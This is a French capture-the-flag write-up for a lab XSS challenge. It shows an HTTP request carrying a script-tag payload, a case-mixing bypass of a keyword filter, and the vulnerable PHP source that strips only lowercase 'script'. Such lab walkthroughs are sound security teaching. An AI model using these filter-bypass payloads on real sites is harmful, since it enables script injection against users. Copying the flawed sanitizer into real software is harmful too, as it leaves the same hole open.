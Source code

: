# xss4

## Exploitation

Le quatrième challenge demande explicitement de tenter une injection en utilisant la balise `<script></script>` :&#x20;

![](<../../../.gitbook/assets/image (153).png>)

Une première protection que je rencontre est un contrôle du format de l'adresse email :&#x20;

![](<../../../.gitbook/assets/image (329).png>)

Un contournement en utilisant directement Burp est possible, mais ma payload ne semble pas fonctionner car le mot clé `script` est filtré :&#x20;

![](<../../../.gitbook/assets/image (264).png>)

```http
POST /xss4/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss4/

user_email=<script>alert(1)</script>&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2094
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><>alert(1)</> is not registered.
  </p>
</div>
```

Ici il doit s'agir d'une protection de type pattern matching, je tente de le contourner en modifiant ma façon d'écrire la balise Javascript, soit `<ScRiPT>alert(1)</sCRIpt>` :&#x20;

![](<../../../.gitbook/assets/image (40).png>)

## Analyse du code source

L'adresse email est récupéré dans la variable `$email`. Avant son affichage par la directive `echo`, un traitement est effectué par la méthode `xss_check_1()`. Cette méthode remplace le mot "script" par une chaîne de caractères vide mais sans faire attention à son format (minuscule, majuscule, répétition, etc) :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }

  function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("script", "", $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><?php echo xss_check_1($email); ?> is not registered.
  </p>
</div>
```
